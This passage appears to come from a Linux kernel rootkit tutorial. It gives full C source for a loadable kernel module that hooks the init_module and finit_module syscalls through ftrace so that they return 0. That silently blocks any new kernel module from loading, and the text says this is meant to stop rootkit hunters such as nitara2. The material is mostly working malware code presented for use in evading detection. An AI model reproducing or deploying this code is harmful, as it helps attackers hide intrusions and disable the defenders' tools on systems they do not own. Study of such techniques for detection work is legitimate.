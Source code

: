 ## Hooking insmod

In recent years, some hidden LKM hunters, such as `nitara2`, have emerged to detect hidden Linux kernel rootkits. We can prevent these LKMs from being loaded easily by hooking up the `init_module` and `finit_module` syscall. Below is a code example.

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include "ftrace_helper.h"

MODULE_LICENSE("GPL");
MODULE_AUTHOR("matheuzsec");
MODULE_DESCRIPTION("Hooking init_module and finit_module");
MODULE_VERSION("1.0");

static asmlinkage long (*hooked_init_module)(struct file *file, const char *uargs, unsigned long flags);
static asmlinkage long (*hooked_finit_module)(struct file *file, const char *uargs, unsigned long flags);

static asmlinkage long hook_init_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static asmlinkage long hook_finit_module(struct file *file, const char *uargs, unsigned long flags) {
    return 0;
}

static struct ftrace_hook hooks[] = {
    HOOK("__x64_sys_init_module", hook_init_module, &hooked_init_module),
    HOOK("__x64_sys_finit_module", hook_finit_module, &hooked_finit_module),
};

static int __init insmod_init(void) {
    int err;

    err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
    if (err) {
        return err;
    }

    return 0;
}

static void __exit insmod_exit(void) {
    fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
}

module_init(insmod_init);
module_exit(insmod_exit);
```

This LKM hooks `init_module` and `finit_module`, replacing them with functions that return 0. `return 0` indicates success, but in doing so, they block the execution of the original logic necessary to load other LKMs, being thus, preventing new modules from being loaded.
